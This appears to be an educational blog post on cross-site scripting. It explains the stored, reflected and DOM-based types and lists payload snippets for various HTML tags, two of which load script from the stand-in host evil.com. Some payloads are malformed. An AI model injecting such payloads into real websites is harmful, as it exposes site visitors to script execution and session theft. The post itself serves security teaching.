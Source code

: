 ```yaml
---
layout: post
title: "Cross Site Scripting (XSS) Vulnerabilities"
date: 2023-09-09
image: ../../assets/img/Posts/xss2.png
categories: [HackTheBox]
tags: [docker, trilium, notes, ubuntu, self-hosted]
---
```


# CROSS SITE SCRIPTING (XSS) VULNERABILITY

>- Is A Client-side Code Injection Attack
>- Executes Malicious Scripts In A Web Browser
>- Actual Attack Occurs When Victim Visits D Web Page That Execute Malicious Code

## CAUSES OF XSS
- UNSANITIZED USER INPUT
- XSS ARE POSSIBLE IN VBSCRIPT, ACTIVEX, AND EVEN CSS. BUT MOST COMMON IS JAVASCRIPT AS IT IS THE FUNDAMENTAL TO BROWSING EXPERIENCE.

## TYPES OF XSS
- SELF XSS
- STORED XSS (MOST DAMAGING)
		An attacker uses Stored XSS to inject malicious content (referred to as the payload), most often JavaScript code, into the target application. If there is no input validation, this malicious code is permanently stored (persisted) by the target application, for example within a database. For example, an attacker may enter a malicious script into a user input field such as a blog comment field or in a forum post.
		When a victim opens the affected web page in a browser, the XSS attack payload is served to the victim’s browser as part of the HTML code (just like a legitimate comment would). This means that victims will end up executing the malicious script once the page is viewed in their browser.

- REFLECTED XSS (2ND MOST DAMAGING)
		the attacker’s payload has to be a part of the request that is sent to the web server. It is then reflected back in such a way that the HTTP response includes the payload from the HTTP request. Attackers use malicious links, phishing emails, and other social engineering techniques to lure the victim into making a request to the server. The reflected XSS payload is then executed in the user’s browser.
		Reflected XSS is not a persistent attack, so the attacker needs to deliver the payload to each victim. These attacks are often made using social networks.

- DOM-BASED XSS (STANDARD)
		A DOM-based XSS attack is often a client-side attack and the malicious payload is never sent to the server. This makes it even more difficult to detect for Web Application Firewalls (WAFs) and security engineers who analyze server logs because they will never even see the attack. DOM objects that are most often manipulated include the URL (document.URL), the anchor part of the URL (location.hash), and the Referrer (document.referrer).


## XSS ATTACK VECTORS
- `<script>` TAG
```bash
		 <!-- External script -->
		 <script src=http://evil.com/xss.js></script>
		 <!-- Embedded script -->
		 <script> alert("XSS"); </script>
```

- `jAVASCRIPT EVENTS [onload and onerror]`
```bash
		 <body onload=alert=("XSS")>
```

- `<body> tag`
```bash
		<body background="javascript:alert("XSS")">
```

- `<img> tag`
```bash
		<!-- <img> tag XSS -->
		<img src="javascript:alert("XSS");">
		<img """><script>alert("XSS")</script>"\>
		<!--  tag XSS using lesser-known attributes -->
		<img dynsrc="javascript:alert('XSS')">
		<img lowsrc="javascript:alert('XSS')">
```

- `<table> tag`
```bash
		<!-- <table> tag XSS -->
		<table background="javascript:alert('XSS')">
		<!-- <td> tag XSS -->
		<td background="javascript:alert('XSS')">
```
- `<iframe> tag`
```bash
		<!-- <iframe> tag XSS -->
		<iframe src="http://evil.com/xss.html">
```

- `<input> tag`
```bash
		<!-- <input> tag XSS -->
		<input type="image" src="javascript:alert('XSS');">
```

- `<link> tag`
```bash
		<!-- <link> tag XSS -->
		<link rel="stylesheet" href="javascript:alert('XSS');">
```

- `<div> tag`
```bash
		<!-- <div> tag XSS -->
		<div style="background-image: url(javascript:alert('XSS'))">
		<!-- <div> tag XSS -->
		<div style="width: expression(alert('XSS'));">
```

> ETC....

## Testing for XSS Vulnerabilities

